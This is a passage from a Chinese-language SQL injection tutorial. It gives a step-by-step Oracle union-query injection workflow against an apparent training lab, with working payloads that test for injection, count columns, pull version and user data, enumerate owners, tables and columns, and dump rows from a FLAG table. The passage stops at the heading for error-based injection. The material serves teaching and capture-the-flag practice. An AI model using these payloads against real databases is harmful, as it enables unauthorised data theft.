 注意：如果取消某个用户的对象权限，那么对于这个用户使用 WITH GRANT OPTION授予权限的用户来说，同样还会取消这些用户的相同权限，也就是说取消授权时级联的

## 常见注入类型

### union联合查询注入

> **Oracle union联合查询注入基本流程**

```
**1.判断是否存在注入** 
http://172.16.12.2:81/orcl.php?id=1' " and 1=1 and '1'='1' or '1'='1'

**2.判断字段数** 
当前表有4个字段
id=1 order by 4--   

**3.联合查询找回显位** 
Oracle 数据库查询需要 from dual (虚表/伪表) 专为查询语句设置的表
union select * from dual--
id=1 union select 1,2,3,4 from dual--
null代替所有类型
id=1 union select null,null,null,null from dual--
id=1 union select 1,'admin',3,4 from dual--

**4.查询数据库版本、数据库连接用户、当前实例名** 
id=1 union select 1,(select banner from sys.v_$version where rownum=1),3,4 from dual--
id=1 union select 1,(select SYS_CONTEXT('USERENV','CURRENT_USER') from dual),3,4 from dual-- #test
id=-1 union select 1,(select instance_name from v$instance),3,4 from dual--

**5.遍历数据库名** 
id=-1 union select 1,(select owner from all_tables where rownum=1),3,4 from DUAL--
id=-1 union select 1,(select owner from all_tables where rownum=1 and owner not in ('SYS')),3,4 from DUAL--
id=-1 union select 1,(select owner from all_tables where rownum=1 and owner not in('SYS','OUTLN','SYSTEM')),3,4 from DUAL--

**6.遍历表名** 
id=-1 union select 1,(select table_name from user_tables where rownum=1 and table_name not in ('ADMIN1','DEMO','FLAG','ICHUNQIU','STU')),3,4 from DUAL--

**7.遍历flag表字段名** 
id=-1 union select 1,(select column_name from user_tab_columns where rownum=1 and table_name='FLAG' AND column_name not in ('id','name','pwd','flag')),3,4 from DUAL--

**8.查询表字段数据** 
id=-1 union select 1,(select NAME||AGE FROM DEMO where rownum=1),3,4 from dual--
id=-1 union select 1,(select "name"||"age" FROM DEMO where rownum=1),3,4 from dual--
id=-1 union select 1,(select 'username:'||NAME||'age:'||AGE FROM DEMO where rownum=1),3,4 from dual--
```

### error 注入
